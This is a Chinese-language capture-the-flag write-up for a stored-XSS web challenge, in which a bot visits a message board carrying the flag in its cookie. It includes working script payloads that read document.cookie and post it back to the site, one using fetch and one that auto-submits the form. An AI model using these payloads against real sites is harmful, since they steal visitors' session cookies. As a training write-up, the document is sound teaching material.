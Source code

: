 # 题解分享频道

- 作者：13m0n4de
- 参考：-
- 难度：Normal
- 分类：Web
- 镜像：[svuctf-winter-2023/writeup_channel](https://ghcr.io/svuctf/svuctf-winter-2023/writeup_channel:latest)
- 端口：5000

## 题目描述

**请勿分享自己的链接，或点击其他人分享的链接，以免造成安全问题**

> Hint: 得到的 Flag 字符串可能被 URL 编码过，注意解码\
> Hint：题目容器不出网

## 题目解析

灵感来源于 [USTC-Hackergame-2021 花絮中的钓鱼题解](https://github.com/USTC-Hackergame/hackergame2021-writeups/blob/master/behind-the-scenes/README.md#%E5%85%B6%E4%BB%96)，页面也仿制了。

可能同学们第一次遇到 XSS 的题，有点陌生。这类题目为了模拟被攻击者访问网页，会使用脚本来模拟浏览器打开网页，这个脚本可以称为 Bot ，其中大多 Bot 会将 Flag 设置在 Cookie 中。（XSS 盗 Cookie ，经典的用法）

也有可能有的题目是手动触发 Bot 访问页面，看题目如何设置了。

此题在最开头就说明 `每过一段时间就来这里更新一下` 所以可以推测有个 Bot 带着 Flag 每隔一段时间就访问一次这个网页。

这是道非常平常的储存型 XSS ，只不过不出网。

没有任何过滤，投稿 `<script>alert('xss')</script>` 会直接弹窗。

![弹窗](./writeup/%E5%BC%B9%E7%AA%97.png)

这段 JavaScript 代码一直被留在页面上。

按照平常的 XSS 利用，可以将 Cookie 发送到自己的服务器，或者直接使用 XSS 平台，但在这题行不通，因为容器没法访问公网服务。

想要把内容带出来，可以考虑直接提交到网页上，利用提交投稿功能。

这是使用 `fetch` 发送 POST 请求的方式：

```html
<script>
    var form_data = new FormData();
    form_data.append("message", document.cookie);
    fetch("/", {
    	"method": "POST",
    	"body": form_data,
    });
</script>
```

这是填充表单并提交的方式：

```html
<script>
    document.addEventListener('DOMContentLoaded', function() {
        var form = document.querySelector('form');
        var messageInput = form.elements["message"];
        messageInput.value = document.cookie;
        form.submit();
    });
</script>
```

需要等待页面加载完毕才能找到 Form 表单。

这种方式注意的是，提交之后会刷新页面，刷新了又会提交，会出现一直刷新的状况。

Bot 是不受影响的，它在固定的几秒中后退出，网页上并不会无限出来 Flag 。

我们访问的时候，手动停止页面的刷新就可以了。

![flag](./writeup/flag.png)

Flag 被 URL 编码了。
